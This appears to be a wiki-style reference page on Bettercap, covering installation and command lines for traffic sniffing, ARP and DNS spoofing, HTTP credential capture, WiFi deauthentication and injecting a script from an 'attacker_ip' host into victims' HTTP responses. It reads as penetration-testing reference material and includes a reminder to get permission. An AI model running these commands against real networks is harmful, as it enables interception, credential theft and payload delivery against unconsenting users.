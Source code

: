 ## Overview
Bettercap is a powerful, flexible, and fast network attack and monitoring tool designed to perform various types of network and protocol attacks, as well as to manipulate HTTP, HTTPS, and TCP traffic in real-time. It is a Swiss Army knife for network attacks and is frequently used by penetration testers, red teams, and security researchers to assess network security. Bettercap is capable of performing a wide range of tasks, such as ARP spoofing, DNS spoofing, packet sniffing, man-in-the-middle (MitM) attacks, and more.

## Features
- **Network Sniffing and Monitoring:** Captures and analyzes network traffic in real-time, providing detailed information about the devices and traffic on the network.
- **ARP Spoofing:** Performs ARP spoofing to intercept network traffic and redirect it through the attacker's machine for further analysis.
- **DNS Spoofing:** Manipulates DNS responses to redirect traffic to malicious servers or fake websites.
- **HTTP and HTTPS Proxy:** Intercepts and manipulates HTTP and HTTPS traffic to inject malicious payloads or perform credential capture.
- **Modular Design:** Includes various modules for specific tasks, such as wifi, ble, sniffer, proxy, and more.
- **Cross-Platform:** Available on Linux, macOS, and Windows.

## Website
- [Bettercap Official Website](https://www.bettercap.org/)

## Installation

### On Unix-based systems (Linux/macOS):
1. **Install Bettercap via Package Manager:**
   - On Debian-based systems:
```sh
sudo apt-get install bettercap
```
   - On macOS using Homebrew:
```sh
brew install bettercap
```

2. **Build from Source:**
   - Clone the repository from GitHub:
```sh
git clone https://github.com/bettercap/bettercap.git
cd bettercap
make build
sudo make install
```

### On Windows:
1. **Download the Binary:**
   - Download the latest Windows binaries from the [Bettercap Releases Page](https://github.com/bettercap/bettercap/releases).

2. **Extract and Run:**
   - Extract the downloaded files and run `bettercap.exe` from the command prompt.

## Basic Usage
Bettercap is run from the command line interface (CLI). Here are some common commands and usage examples:

### Start Bettercap
To start Bettercap with a specific network interface:
```sh
sudo bettercap -iface eth0
```
- **`-iface eth0`**: Specifies the network interface to use (e.g., `eth0`).

### Network Sniffing and Monitoring
To sniff and monitor network traffic:
```sh
sudo bettercap -iface eth0 -eval "net.sniff on"
```
- **`-eval`**: Runs the specified commands on startup.

### ARP Spoofing
To perform ARP spoofing on the network:
```sh
sudo bettercap -iface eth0 -eval "arp.spoof on"
```

### DNS Spoofing
To perform DNS spoofing to redirect traffic:
```sh
sudo bettercap -iface eth0 -eval "net.recon on; dns.spoof on"
```
- **`net.recon on`**: Enables network reconnaissance to discover hosts.

### Capturing Credentials
To intercept and capture HTTP credentials:
```sh
sudo bettercap -iface eth0 -eval "http.proxy on; http.proxy.capture on"
```

### Injecting Code into HTTP Responses
To inject code into HTTP responses for all web traffic:
```sh
sudo bettercap -iface eth0 -eval "http.proxy on; http.proxy.injectjs http://attacker_ip/payload.js"
```

## Key Features and Modules

### ARP Spoofing
- **Description:** Intercepts and manipulates ARP traffic to redirect network traffic through the attacker's machine, enabling man-in-the-middle (MitM) attacks.
- **Usage:**
```sh
sudo bettercap -iface eth0 -eval "arp.spoof on"
```

### DNS Spoofing
- **Description:** Manipulates DNS responses to redirect traffic intended for specific domains to attacker-controlled IP addresses.
- **Usage:**
```sh
sudo bettercap -iface eth0 -eval "dns.spoof on"
```

### HTTP/HTTPS Proxy
- **Description:** Intercepts and manipulates HTTP and HTTPS traffic, allowing for credential capture, payload injection, and more.
- **Usage:**
```sh
sudo bettercap -iface eth0 -eval "http.proxy on"
```

### WiFi and BLE Attacks
- **Description:** Performs attacks on WiFi and Bluetooth Low Energy (BLE) devices, such as deauthentication and packet injection.
- **Usage:**
```sh
sudo bettercap -iface wlan0 -eval "wifi.recon on; wifi.deauth on"
```

### Sniffer Module
- **Description:** Captures network packets and analyzes them in real-time to identify sensitive data, such as passwords and session cookies.
- **Usage:**
```sh
sudo bettercap -iface eth0 -eval "net.sniff on"
```

## Tools for Network Security and Penetration Testing Using Bettercap

- **Network Sniffing and Analysis:** Use Bettercap to capture and analyze network traffic, identifying sensitive data and potential vulnerabilities.
- **Man-in-the-Middle Attacks:** Perform ARP spoofing, DNS spoofing, and proxy attacks to intercept and manipulate network traffic for credential capture or data exfiltration.
- **Wireless Network Attacks:** Conduct attacks on WiFi and BLE devices to test network security and identify weaknesses.
- **Credential Harvesting:** Capture HTTP, HTTPS, and proxy credentials from network traffic during penetration tests.
- **Phishing and Social Engineering:** Use DNS spoofing and HTTP injection to redirect users to fake login pages for credential capture.

## Best Practices
- **Use Bettercap Responsibly:** Always ensure that you have permission before using Bettercap for network sniffing, spoofing, or attacks, as it can disrupt legitimate network traffic.
- **Limit Exposure:** Use specific modules and target IP ranges to limit the scope of attacks and avoid unnecessary network disruption.
- **Monitor Network Traffic:** Regularly monitor network traffic for signs of unauthorized use of Bettercap or similar tools to detect potential intrusions.
- **Combine with Other Tools:** Use Bettercap alongside other network tools like [[Ettercap]], [[Wireshark]], and [[Responder]] for comprehensive network assessments.
- **Keep Bettercap Updated:** Regularly update Bettercap to benefit from the latest features, security enhancements, and bug fixes.

## References
- [Bettercap Official Website](https://www.bettercap.org/)
- [Bettercap GitHub Repository](https://github.com/bettercap/bettercap)
- [Bettercap Documentation and Usage](https://bettercap.org/docs/)
- [Advanced Network Attacks with Bettercap](https://null-byte.wonderhowto.com/how-to/advanced-mitm-attacks-using-bettercap-0193780/)

